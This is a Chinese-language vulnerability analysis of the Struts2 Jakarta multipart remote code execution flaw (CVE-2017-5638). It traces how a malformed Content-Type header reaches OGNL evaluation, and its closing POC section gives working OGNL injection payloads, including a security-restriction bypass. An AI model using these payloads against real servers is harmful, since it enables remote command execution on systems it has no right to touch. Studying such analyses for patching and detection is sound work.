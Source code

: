 ```
漏洞编号：CVE-2017-5638
漏洞全称：基于Jakarta插件的插件的Struts远程代码执行漏洞
描述：Struts使用的Jakarta解析文件上传请求包不当，当攻击者使用恶意的Content-Type，会导致远程命令执行。
利用条件：Struts 2.3.5 – Struts 2.3.31    Struts 2.5 – Struts 2.5.10
```
已经知道了是因为`Jakarta`插件的问题，那么先全局搜索一下。
![56893012.png](README_files/56893012.png)
可以看到在`struts-default.xml`中设置了此项，属于文件上传bean的定义，`org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest`为默认实现类。跟进去看看。
> 相关知识点：[struts.xml文件中bean配置](http://blog.163.com/artsn@126/blog/static/36533281201111511381316/)

## **JakartaMultiPartRequest**

浏览代码时候，发现了一个十分敏感的代码：
```
    protected String buildErrorMessage(Throwable e, Object[] args) {
        String errorKey = "struts.messages.upload.error." + e.getClass().getSimpleName();
        if (LOG.isDebugEnabled()) {
            LOG.debug("Preparing error message for key: [#0]", errorKey);
        }
        return LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, e.getMessage(), args);
    }
```
尤其是`return LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, e.getMessage(), args);`

多次分析struts2的漏洞便知道，这是一个非常容易产生OGNL表达式注入的地方，后面找了官方的补丁，也正是修补的这个地方。

在这儿打一个断点，然后Burpsuite发一个请求，其中因为是属于用户上传类型，所以需要设置`Content-Type: multipart/form-data`，这样就非常容易的截取到了流量，找到了漏洞发生点以及输入点，就该跟踪数据来形成利用了。

## 追踪

详细看代码后发现只有当出现异常的情况下，这个类才会调用到`buildErrorMessage`，而异常的状态有两个：
* `FileUploadBase.SizeLimitExceededException e`
* `Exception e`

这两个并不是很难理解，就是上传文件大小异常，还有一个就是除此之外的异常。

那我们就先看一下，从`Content-Type`传入到进入异常判断会经过哪些阶段，就看下`parse`被谁调用
![72883242.png](README_files/72883242.png)
在`MultiPartRequestWrapper`的`MultiPartRequestWrapper`中，再看`MultiPartRequestWrapper`的调用
![72985024.png](README_files/72985024.png)
可以看到在`Dispatcher`中被实体化，并且这儿就是判断`Content-Type`的点：
```
        String content_type = request.getContentType();
        if (content_type != null && content_type.contains("multipart/form-data")) {
            MultiPartRequest mpr = getMultiPartRequest();
            LocaleProvider provider = getContainer().getInstance(LocaleProvider.class);
            request = new MultiPartRequestWrapper(mpr, request, getSaveDir(), provider, disableRequestAttributeValueStackLookup);
        } else {
            request = new StrutsRequestWrapper(request, disableRequestAttributeValueStackLookup);
        }
```
只要`Content-Type`中存在`multipart/form-data`，`request`就能够进入到`MultiPartRequestWrapper`中，接着会直接进入到`multi.parse(request, saveDir);`

那么一个`request`请求就可以像这样：
```
GET /orders/5 HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data
```
先前说过，payload是构造在`Content-Type`里的，而进入到`buildErrorMessage`里的是异常信息，那么就是说`Content-Type`中的信息会作为异常信息，再换个说法就是需要通过`Content-Type`来产生异常,而发送上面这个请求是能够直接产生异常的，但是问题就是其中并没有包含到`Content-Type`的内容，而是返回的
```
the request was rejected because no multipart boundary was found
```
全局搜索下这个异常描述，定位到了`FileUploadBase`，并在其中发现了其余的异常处理情况

其中第一个异常处理就很有意思，因为这个异常处理正好会将`Content-Type`内容拼接到异常信息中，而这个异常抛出的判断条件就是判断`Content-Type`是否为空或者是否以`MULTIPART`开头，不是的话则抛出异常，那意思就是说，只要将`Content-Type`设置成`1multipart/form-data`，那么就能作为异常信息进入到`buildErrorMessage`
![68382593.png](README_files/68382593.png)
后面的可以参照048的分析看
漏洞的ognl表达式可以确定是在`TextParseUtil`的`translateVariables`中执行的，但是第一次传入时候，却并没有进入到`findValue`中，而是直接到了函数的`return中`，而`return`中又包含着`evaluate()`，跟进去进入到`OgnlTextParser`中，在第49行代码，会将`content-type`中的表达式提取出来，进入到`evaluate`中，在这再次跟进，就返回到了`translateVariables`并在本次进入到了`findValue`
![59799758.png](README_files/59799758.png)

## POC
首先是POC，可以用这个作为模板
```
${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(new java.lang.ProcessBuilder('gedit').start())}
```
然后修改，因为要稳定提供`multipart/form-data`，所以
```
123multipart/form-data${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(new java.lang.ProcessBuilder('gedit').start())}
```
这个payload并没有弹出文本框，测试后发现是因为没有绕过安全限制
```
123multipart/form-data${(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(new java.lang.ProcessBuilder('gedit').start())}
```
这样就行了
后续发现绕过安全限制应当使用的是if判断形式
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(102*102*102*99)).(#ros.flush())}
```


